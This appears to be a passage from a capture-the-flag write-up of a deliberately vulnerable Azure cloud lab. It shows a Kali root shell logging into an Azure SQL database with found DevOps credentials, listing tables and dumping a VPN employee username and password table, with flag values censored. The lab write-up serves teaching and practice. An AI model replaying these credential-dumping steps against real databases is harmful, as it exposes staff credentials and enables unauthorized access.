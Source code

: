 We started wandering around the database:

![0118682403e836dbabde49222fbe7861.png](/assets/brokenAzure.cloud/0118682403e836dbabde49222fbe7861.png)

```
┌──(root㉿kali)-[/home/kali]
└─# sqlcmd -S securavulnerableserver.database.windows.net -d securavulnerabledb -U DevOps -P SECURA{CENSORED_FLAG};
1> SELECT TABLE_NAME
2> FROM INFORMATION_SCHEMA.TABLES
3> WHERE TABLE_TYPE = 'BASE TABLE';
4> GO
TABLE_NAME                                                                                                                      
--------------------------------------------------------------------------------------------------------------------------------
vpn_employee_data                                                                                                               

(1 row affected)
1> Select * from vpn_employee_data;
2> GO
vpn_username                                                                                                                                                                                                                                                    vpn_password                                                                                                                                                                                                                                                   
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Employee23187                                                                                                                                                                                                                                                   SECURA{CENSORED_FLAG}                                                                                                                                                                                                                                        

(1 row affected)
1>
```